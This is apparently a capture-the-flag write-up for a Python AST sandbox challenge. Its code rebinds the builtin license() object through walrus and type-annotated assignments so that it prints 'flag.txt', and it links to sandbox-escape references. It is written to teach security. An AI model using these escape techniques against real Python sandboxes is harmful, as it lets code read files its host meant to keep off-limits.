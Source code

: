 ```python

# safe_import is now license
[safe_import := license]; 

# importing something and therefore triggering safe_import(), which is now license()
import sys  

# all together as a single line
[license := safe_import.__globals__['__builtins__'].license]; license._Printer__filenames += ['flag.txt']; [safe_call := license._Printer__filenames.reverse]; safe_call(); [safe_import := license]; import sys


# SHORTER VERSION WITH TYPE HINTING
# credit: neverbolt
# makes use of type hinting, which won't be cought as an assignment by visit_Assign() in the AST manipulation
# https://docs.python.org/3/library/typing.html

# change filenames of license to flag.txt by using the type hinting feature of python
safe_call.__globals__["__builtins__"].license._Printer__filenames: None = ["flag.txt"]; 

# again make use of type hinting to call license(), when safe_call() is called
safe_call: None = safe_call.__globals__["__builtins__"].license; 

# call random function to trigger safe_call, which is now license
hello()

# as a single line
safe_call.__globals__["__builtins__"].license._Printer__filenames: None = ["flag.txt"]; safe_call: None = safe_call.__globals__["__builtins__"].license; helo()



```


Resources: <br>
- ast docs: https://docs.python.org/3/library/ast.html
- ast wikipedia: https://en.wikipedia.org/wiki/Abstract_syntax_tree
- hacktricks python sandbox escape: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
- https://astexplorer.net/
    - source (6k stars): https://github.com/fkling/astexplorer
- https://ast-grep.github.io/
    - https://ast-grep.github.io/playground.html
    - source (7k stars): https://github.com/ast-grep/ast-grep

- different writeup: https://medium.com/@harryfyx/writeup-uiuctf-2024-astea-7b27ec0b9159
